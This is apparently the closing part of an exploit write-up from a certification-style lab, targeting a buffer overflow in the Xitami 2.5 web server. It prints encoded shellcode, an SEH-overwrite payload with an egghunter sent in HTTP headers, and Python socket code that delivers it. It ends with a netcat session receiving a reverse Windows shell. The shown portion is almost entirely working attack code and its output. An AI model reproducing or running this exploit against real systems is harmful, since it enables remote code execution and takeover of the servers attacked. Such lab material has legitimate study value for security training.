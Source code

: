 ```python
"\x48\x44\x37\x34\x33\x64\x72\x31\x4f\x46\x34\x75\x38\x72\x6c"
"\x70\x77\x35\x76\x74\x47\x4b\x4f\x4b\x65\x68\x38\x4c\x50\x35"
"\x51\x63\x30\x43\x30\x37\x59\x38\x44\x46\x34\x76\x30\x63\x58"
"\x35\x79\x4b\x30\x52\x4b\x43\x30\x6b\x4f\x6b\x65\x30\x50\x46"
"\x30\x30\x50\x66\x30\x43\x70\x52\x70\x71\x50\x50\x50\x31\x78"
"\x58\x6a\x36\x6f\x49\x4f\x79\x70\x69\x6f\x6e\x35\x6a\x37\x61"
"\x7a\x73\x35\x70\x68\x39\x50\x4d\x78\x43\x31\x4e\x31\x61\x78"
"\x56\x62\x45\x50\x35\x51\x4d\x6b\x6e\x69\x79\x76\x32\x4a\x56"
"\x70\x52\x76\x72\x77\x73\x58\x6c\x59\x6f\x55\x52\x54\x73\x51"
"\x59\x6f\x6e\x35\x4c\x45\x79\x50\x73\x44\x54\x4c\x4b\x4f\x32"
"\x6e\x65\x58\x73\x45\x48\x6c\x75\x38\x4a\x50\x6d\x65\x6e\x42"
"\x53\x66\x59\x6f\x68\x55\x42\x48\x32\x43\x30\x6d\x62\x44\x65"
"\x50\x4f\x79\x4d\x33\x32\x77\x73\x67\x52\x77\x55\x61\x39\x66"
"\x62\x4a\x77\x62\x46\x39\x30\x56\x4d\x32\x4b\x4d\x62\x46\x58"
"\x47\x71\x54\x45\x74\x35\x6c\x43\x31\x45\x51\x6c\x4d\x63\x74"
"\x75\x74\x72\x30\x6b\x76\x47\x70\x67\x34\x63\x64\x30\x50\x50"
"\x56\x53\x66\x72\x76\x31\x56\x36\x36\x70\x4e\x56\x36\x56\x36"
"\x73\x63\x63\x66\x35\x38\x44\x39\x48\x4c\x35\x6f\x4d\x56\x59"
"\x6f\x6b\x65\x4b\x39\x49\x70\x62\x6e\x56\x36\x32\x66\x59\x6f"
"\x76\x50\x45\x38\x77\x78\x6d\x57\x67\x6d\x63\x50\x59\x6f\x6b"
"\x65\x6f\x4b\x7a\x50\x4c\x75\x4e\x42\x61\x46\x35\x38\x6d\x76"
"\x6e\x75\x4f\x4d\x4f\x6d\x59\x6f\x49\x45\x77\x4c\x54\x46\x61"
"\x6c\x34\x4a\x4f\x70\x59\x6b\x79\x70\x61\x65\x56\x65\x4d\x6b"
"\x37\x37\x42\x33\x42\x52\x62\x4f\x62\x4a\x65\x50\x53\x63\x6b"
"\x4f\x7a\x75\x41\x41")

#PO @ 304
crash = "A" * 254
crash += egghunter
crash += "A" * (304 - len(crash))
crash += nseh
crash += seh


req = "GET / HTTP/1.1\r\n"
req += "Host: " + shellcode + "\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```

Awesome!
```terminal_session
root@kali:~/OSCE/ # nc -lvp 443                                        
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.209] from (UNKNOWN) [192.168.1.201] 49172
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Downloads\xiopen_2_5\xitami-25\app>
```
